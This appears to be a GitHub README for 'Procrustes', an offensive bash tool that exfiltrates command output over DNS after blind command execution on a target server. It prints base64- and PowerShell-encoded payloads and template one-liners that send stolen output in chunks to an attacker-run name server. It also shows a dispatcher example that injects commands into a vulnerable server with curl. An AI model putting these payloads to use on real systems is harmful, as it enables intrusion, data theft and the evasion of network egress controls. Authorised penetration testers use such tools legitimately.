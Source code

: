 # Procrustes

A bash script that automates the exfiltration of data over dns in case we have a blind command execution on a server where all outbound connections except DNS are blocked. The script currently supports sh, bash and powershell and is compatible with exec style command execution (e.g. java.lang.Runtime.exec).

<p align="center">
  <img src="images/op.gif"/>
</p>

For its operations, the script takes as input the command we want to run on the target server and transforms it according to the target shell in order to allow its output to be exfiltrated over DNS. After the command is transformed, it's fed to the "dispatcher". The dispatcher is a program provided by the user and is responsible for taking as input a command and have it executed on the target server by any means necessary (e.g. exploiting a vulnerability). After the command is executed on the target server, it is expected to trigger DNS requests to our DNS name server containing chunks of our data. The script listens for those requests until the output of the user provided command is fully exfiltrated.

Below are the supported command transformations, generated for the exfiltration of the command: `ls`

sh:
```bash
sh -c $@|base64${IFS}-d|sh . echo IGRpZyBAMCArdHJpZXM9NSBgKGxzKXxiYXNlNjQgLXcwfHdjIC1jYC5sZW4xNjAzNTQxMTc4LndoYXRldi5lcgo=
```

bash:
```bash
bash -c {echo,IG5zbG9va3VwIGAobHMpfGJhc2U2NCAtdzB8d2MgLWNgLmxlbi4xNjAzMDMwNTYwLndoYXRldi5lcgo=}|{base64,-d}|bash
```

powershell:
```bash
powershell -enc UgBlAHMAbwBsAHYAZQAtAEQAbgBzAE4AYQBtAGUAIAAkACgAIgB7ADAAfQAuAHsAMQB9AC4AewAyAH0AIgAgAC0AZgAgACgAWwBDAG8AbgB2AGUAcgB0AF0AOgA6AFQAbwBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAoAGwAcwApACkAKQAuAGwAZQBuAGcAdABoACkALAAiAGwAZQBuACIALAAiADEANgAwADMAMAAzADAANAA4ADgALgB3AGgAYQB0AGUAdgAuAGUAcgAiACkACgA=
```

## Usage
1. Local testing for bash:
```bash
./procroustes_chunked.sh -h whatev.er -d "dig @0 +tries=5" -x dispatcher_examples/local_bash.sh -- 'ls -lha|grep secret' < <(stdbuf -oL tcpdump --immediate -l -i any udp port 53)
```

Contents of local_bash.sh:
> $@

2. Local testing for powershell with WSL2:
```bash
stdbuf -oL tcpdump --immediate -l -i any udp port 53|./procroustes_chunked.sh -w ps -h whatev.er -d "Resolve-DnsName -Server wsl2_IP -Name" -x dispatcher_examples/local_powershell_wsl2.sh -- 'gci | % {$_.Name}'
```

Contents of local_powershell_wsl2.sh:
> /mnt/c/Windows/System32/WindowsPowerShell/v1.0/powershell.exe ${@:1}

3. powershell example where we ssh into our NS to get the incoming DNS requests.
```bash
./procroustes_chunked.sh -w ps -h yourdns.ns -d "Resolve-DnsName" -x ./dispatcher.sh -- 'gci | % {$_.Name}' < <(stdbuf -oL ssh user@HOST 'sudo tcpdump --immediate -l udp port 53')
```

Contents of dispatcher.sh
> curl https://vulnerable_server --data-urlencode "cmd=${1}"

4. More information on the options
```bash
./procroustes_chunked.sh --help
```

### procroustes_chunked vs procroustes_full

|                       | procroustes_chunked                | procroustes_full  |
| -------------         |:-------------:               |:-----:         |
| payload size overhead (sh/powershell) | 150\*NLABELS/500\*NLABELS                      | 300/750        |
| dispatcher calls #     | #output/(LABEL_SIZE*NLABELS)[1] |   1👌          |
| speed (sh/powershell)[2]                | ✔/✔                         |  ✔/😔         |

[1] On procroustes_chunked, the provided command gets executed multiple times on the server until all of its output is extracted. This behavior may cause problems in case that command is not idempotent (functionality or output-wise) or is time/resource intensive. 
A workaround to avoid running into issues for the aforementioned cases is to first store the command output into a file (e.g. /tmp/file) and then read that file.

[2] We can speed up the exfiltration process by having the NS properly responding to the requests received. This is especially usefull in the case of procroustes_full/powershell

---------------------------------------

In a nutshell, assuming we want to exfiltrate some data that has to be broken into four chunks in order to be able to be transmitted over DNS:
* procroustes_chunked: calls the dispatcher four times, each time requesting a different chunk from the server
* procroustes_full: calls the dispatcher once, the command that will get executed on the server will be responsible for chunking the data and sending them over.

Some of their differences can also be illustrated through the template commands used for sh/powershell:

procroustes_chunked/sh:
```bash
%DNS_TRIGGER% `(%CMD%)|base64 -w0|cut -b$((%INDEX%+1))-$((%INDEX%+%COUNT%))'`.%UNIQUE_DNS_HOST%
```
procroustes_full/sh:
```bash
((%CMD%);printf '\n%SIGNATURE%')|base64 -w0|grep -Eo '.{1,%LABEL_SIZE%}'|xargs -n%NLABELS% echo|tr ' ' .|nl|awk '{printf "%s.%s%s\n",$2,$1,"%UNIQUE_DNS_HOST%"}'|xargs -P%THREADS% -n1 %DNS_TRIGGER%
```

procroustes_chunked/powershell:
```bash
%DNS_TRIGGER% $("{0}.{1}{2}" -f ([Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((%CMD%))).Substring(%INDEX%,%COUNT%)),"%STAGE_ID%","%UNIQUE_DNS_HOST%")
```
procroustes_full/powershell:
```bash
[Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((%CMD%)+(echo "`n%SIGNATURE%"))) -split '(.{1,%CHUNK_SIZE%})'|?{$_}|%{$i+=1;%DNS_TRIGGER% $('{0}{1}{2}' -f ($_ -replace '(.{1,%LABEL_SIZE%})','$1.'),$i,'%UNIQUE_DNS_HOST%')}
```

### Todos
 - procroustes_full/powershell command can use some parallelization.